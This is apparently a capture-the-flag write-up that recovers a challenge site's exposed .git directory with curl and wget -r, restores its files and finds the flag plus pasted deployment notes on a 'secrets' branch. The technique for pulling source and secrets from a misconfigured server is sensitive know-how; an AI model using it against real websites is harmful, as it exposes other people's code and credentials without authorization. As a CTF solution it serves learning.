

## Writeup

The description talks about git repo, so I opened the url with curl

``` bash
$ curl https://insufficient.io.ept.gg/.git/HEAD 
ref: refs/heads/main
```

Removing the HEAD shows that directory listing is on as well. So I can just download the whole folder



Using wget -r for recursive:

```bash
wget -r https://insufficient.io.ept.gg/.git/
```

Then I can enter the folder wget creates and do `git status`

```bash
$ git status
On branch main
Your branch is up to date with 'origin/main'.

Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    3drectangle.js
        deleted:    Dockerfile
        deleted:    README.md
        deleted:    ept.png
        deleted:    index.html
        deleted:    starfield.js

no changes added to commit (use "git add" and/or "git commit -a")
```

Restoring the files using `git checkout --` and I find nothing special in here. Looking at other branches with `git branch -a` shoiws a `secrets` branch. So I just quickly check it out with `git checkout secrets` and there is `snotes.md` containing the flag.


```markdown
# secret notes

moved!

EPT{1n5uff1c13n7_cr3d3n7141_hy613n3}

need a place to take notes.

this paste is `.bash_history` from the sunshine deployment we removed, just make life easy and reuse the steps when deploying... they work!

ssh-keygen -t ed25519 -C "lunarlattice" -f github_deploykey
ssh -i github_deploykey -T git@github.com
cat github_deploykey.pub
GIT_SSH_COMMAND='ssh -i github_deploykey' git clone git@github.com:lunarlattice/sunshine.git
cp * sunshine && cd sunshine
chown -R "$USER":"$USER" * && chmod -R 644 *
nano Dockerfile
docker build -t sunshine . && docker run --rm -it sunshine -p5000:5000


@todo need a place to paste my secrets, it can not be in the main branch so find somewhere else...
```